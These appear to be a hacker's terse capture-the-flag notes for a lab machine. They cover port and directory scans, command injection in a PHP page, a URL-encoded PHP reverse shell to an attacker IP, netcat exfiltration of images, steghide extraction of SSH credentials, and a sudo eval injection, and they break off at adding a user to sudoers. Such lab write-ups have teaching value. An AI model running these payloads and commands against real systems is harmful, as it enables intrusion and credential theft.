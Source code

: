 # NMAP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# DIRB
==> DIRECTORY: http://10.10.254.124:80/assets/
+ http://10.10.254.124:80/index.html (CODE:200|SIZE:1988)                   
+ http://10.10.254.124:80/server-status (CODE:403|SIZE:278)                 
                                                                            
---- Entering directory: http://10.10.254.124:80/assets/ ----
                                                                                                                            ==> DIRECTORY: http://10.10.254.124:80/assets/images/
+ http://10.10.254.124:80/assets/index.php (CODE:200|SIZE:0)                
                                                                            
---- Entering directory: http://10.10.254.124:80/assets/images/ ----
none                                                                                                         

# COMMAND INJECTION ON /assets/index.php
(find directories) -> /assets/index.php?cmd=ls
aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==

## echo 'aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==' | base64 -d
images
index.php
styles.css

# REVERSE SHELL with netcat
nc -lvnp 4444

(generated with https://www.revshells.com/)
http://10.10.247.114/assets/index.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.21.217.122%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

-> ls
images
index.php
styles.css
-> cd images
-> ls
oneforall.jpg
yuei.jpg

# TRANSFERRED jpg FILES with netcat
## on attacker machine (before)
nc -lvnp 3344 > oneforall.jpg 
nc -lvnp 3344 > yuei.jpg 

## on server (sender) (after)
nc 10.21.217.122 3344 < oneforall.jpg
nc 10.21.217.122 3344 < yuei.jpg


# MAGICBYTES
To fix the format of the files

# STEGANOGRAPHY
-> steghide extract -sf yuei.jpg
Enter passphrase: ???

# ENUM THE WEB SERVER TO FIND THE PASSWORD
Found passphrase.txt
AllmightForEver!!!

# STEGANOGRAPHY
-> steghide extract -sf oneforall.jpg
Enter passphrase: 
wrote extracted data to "creds.txt".

-> cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A

Found ssh creds

# CONNECT TO SSH
-> ssh deku@10.10.247.114

# CHECK what SUDO CAPABILITIES doku have
-> sudo -l 
User deku may run the following commands on ip-10-10-247-114:
    (ALL) /opt/NewComponent/feedback.sh

## check feedback.sh
then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

the bash file execute the feedback message, so...

# ADD USER TO SUDOERS
